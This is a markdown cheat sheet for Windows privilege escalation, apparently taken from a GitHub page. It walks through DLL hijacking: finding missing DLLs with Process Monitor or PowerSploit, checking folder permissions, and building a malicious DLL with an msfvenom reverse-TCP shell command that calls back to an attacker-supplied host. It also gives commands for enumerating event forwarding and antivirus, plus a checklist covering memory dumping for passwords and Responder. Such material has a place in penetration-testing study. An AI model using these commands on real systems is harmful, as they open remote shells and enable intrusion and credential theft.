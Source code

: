 When an application needs to load a DLL it will go through the following order:
* The directory from which the application is loaded
* `C:\Windows\System32`
* `C:\Windows\System`
* `C:\Windows`
* The current working directory
* Directories in the system PATH environment variable
* Directories in the user PATH environment variable

### Step 1 – Processes with Missing DLL’s
ProcessMonitor filters
```
Result is NAME NOT FOUND
User is SYSTEM
Path end with .dll
```
Or PowerSploit: `Find-ProcessDLLHijack`

### Step 2 – Folder Permissions
`icalcs <folder>`<br>
Or PowerSploit: `Find-PathDLLHijack`

### Step 3 – DLL Hijacking
```
msfvenom -p windows/shell/reverse_tcp LHOST=YourIP LPORT=YourPort -f dll > shell-cmd.dll
```
Or PowerSploit: `Write-HijackDll`<br>
Or compile DLL
```
x86_64-w64-mingw32-gcc windll.c -shared -o hijackme.dll
```
### Step 4 - Restart the service/process
cf Usefull CMD


## Logging/AV enumeration
* Check LAPS
* Check Audit and WEF settings
	Windows Event Forwarding, is interesting to know where are the logs sent
	```
	reg query HKLM\Software\Policies\Microsoft\Windows\EventLog\EventForwarding\SubscriptionManager
	```
* Check if any AV
	```
	WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List | more
	```

## Network
### TODO
* Check current network information
* Check hidden local services restricted to the outside
* Is any unknown software running?
* Is any software with more privileges that it should have running?
* Search for exploits for running processes (specially if running of versions)
* Can you read some interesting process memory (where passwords could be saved)?
* Have write permissions over the binaries executed by the processes?
* Have write permissions over the folder of a binary being executed to perform a DLL Hijacking?
* What is running on startup of is scheduled? Can you modify the binary?
* Can you dump the memory of any process to extract passwords?
* Responder
